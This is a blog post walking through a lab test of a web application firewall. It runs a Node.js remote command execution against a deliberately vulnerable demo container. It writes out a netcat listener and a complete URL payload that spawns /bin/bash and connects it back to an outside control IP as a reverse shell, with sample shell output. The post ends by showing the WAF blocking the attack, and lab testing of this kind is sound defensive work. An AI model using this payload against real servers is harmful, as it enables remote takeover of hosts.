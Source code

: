 ```yaml
---
layout: post
date:   2021-05-03 17:54:35 -0400
title:  "Web Server Compromise - Node.js Remote Command Execution"
categories: initialaccess
tags: waf
---
```

<p>
Remotely exploiting servers in DMZ's seems so unecessary today with all of the credential theft and client side exploitation, but it is still a critical link in the attack chain. Cloud initiatives are allowing administrators to start up servers all over the place, and most of the time they do not have the same protections in the cloud they typically would in the DMZ. This attack could also be applied for lateral movement if the vulnerable web application is only accessible internally.
</p>

<p>
As a user you can be on either side of the DUT (Device Under Testing) for this. We will be exploiting the web server by requesting a URL with the command execution in it. For this user case that command will ask the web server to connect to our control infrastructure.
</p>

<p>
This particular use case can be used to demonstrate lateral movement too. This host could be the initial system compromised from the Internet and then pivot to another host, or it could be leveraged to pivot on an internal network.
</p>

<p>
Original post for this exploit can be found here, https://ibreak.software/2016/08/nodejs-rce-and-a-simple-reverse-shell/
</p>

<h3>Step 1 - Create a Sub-domain for the Application</h3>

<p>
This is important because we will proxy the traffic through the WAF.
</p>

<img src="/images/node-dns.png">

<h3>Step 2 - Deploy the Node.js Container</h3>

<p>
Run the container somewhere you will be able to access the server by it's DNS name. This particular one is running in GCP.
</p>

<p>
Run the pre-built container for this with the following command, changing the -h to the domain you setup in Step 1.
</p>

<code>docker run -h node.ninjastars.cf -p 8080:8080 -d freshdemo/node-simple-rce</code>


<h3>Step 2 - Setup Control Channel</h3>

<p>
From a terminal behind your device under testing run netcat as a listener. Make sure the port you specify will be accessible from the webserver. This is running on a separate host in Azure and has an IP of 13.88.250.188.
</p>

<code>
  nc -l 80
</code>
<br>


<h3>Step 3 - Exploit the Server</h3>

<p>
The following demonstrates how to connect to the vulnerable server (node.ninjastars.cf:8080), and run the remote command execution that communicates with the control server in the previous step (13.88.250.188:80).
</p>

<code>
  http://node.ninjastars.cf:8080/q=var+net+=+require("net"),+sh+=+require("child_process").exec("/bin/bash");var+client+=+new+net.Socket();client.connect(80,+"13.88.250.188",+function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
</code>
<br>
<br>

<p>
Now back at your control server you should be able to execute commands on the host.
</p>

<pre>
root@DockerHost:~# nc -l 80
pwd
/usr/src/app
ls
app.js
node_modules
package-lock.json
package.json
</pre>


<h3>Step 4 - View the Results</h3>


<p>
The WAF was able to identify and prevent this exploit.
</p>
<br>
<img src="/images/node-waf.png">


